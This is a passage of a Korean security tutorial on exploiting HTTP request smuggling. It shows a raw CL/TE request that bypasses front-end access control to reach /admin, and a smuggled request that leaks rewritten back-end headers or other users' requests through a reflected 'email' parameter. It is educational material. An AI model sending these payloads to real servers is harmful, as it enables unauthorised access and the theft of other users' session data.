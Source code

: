 # 📌 04. HTTP request smuggling 활용

이 글에서는 개요 정도만 다룹니다. 상세 설명은 PortSwigger의 [**‘Exploiting HTTP request smuggling vulnerabilities’**](https://portswigger.net/web-security/request-smuggling/exploiting) 글을 참고바랍니다.

## 04-01. Front-end 접근 제어 우회

Front-end에서 접근을 제어하며 Front-end와 back-end 사이에는 별도의 접근 제어가 존재하지 않는 경우, 접근 제어를 우회하여 Back-end 서버 페이지에 직접 요청할 수 있습니다.

현재 사용자가 /home에 액세스할 수 있지만 /admin에는 액세스할 수 없다고 가정했을 때, 다음 요청 밀수 공격을 사용하여 이 제한을 우회할 수 있습니다.

```
POST /home HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 62
Transfer-Encoding: chunked

0

GET /admin HTTP/1.1
Host: vulnerable-website.com
Foo: xGET /home HTTP/1.1
Host: vulnerable-website.com
```

## 04-02. Front-end에서 재작성 되는 Back-end 요청 패킷 유출

Front-end 서버에서 Back-end 서버로 요청 시 다음과 같은 헤더 등을 추가하는 경우가 있습니다.

- TLS 연결 종료 및 프로토콜, 암호 관련 헤더
- 사용자 IP가 포함된 X-Forwarded-For 헤더
- 세션 토큰을 기반으로 한 사용자 ID  또는 사용자 식별 헤더
- 기타 중요 정보

Back-end 서버에서 필요한 헤더가 누락된 경우 페이지를 정상적으로 로딩 하지 못할 수 있으므로 아래와 같은 과정을 거쳐 필요한 헤더를 확인할 수 있습니다.

1. 요청 매개변수의 값이 애플리케이션의 응답 Body에 포함되는 POST 요청을 찾습니다.
2. 응답 Body에 포함되는 파라미터를 요청 Body의 마지막에 위치 시킨 후 Content-Length를 크게(200 정도) 설정합니다.
3. 해당 Smuggled 패킷을 연속으로 2회 전송하면 Front-end 서버에서 조작된 패킷의 내용이 파라미터 값으로 입력되어 페이지에 출력 됩니다.

다음과 같은 Smuggling 공격 패킷을 2회 연속 요청할 경우, ‘email’ 파라미터에 패킷의 내용이 입력되어, Front-end 페이지에 패킷의 내용이 출력됩니다.

**1회 요청 직후 타 사용자의 패킷이 전송되는 경우, 타 사용자의 요청 패킷이 파라미터에 입력되어 노출될 수도 있습니다.**

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Transfer-Encoding: chunked

0

POST /login HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

email=
```
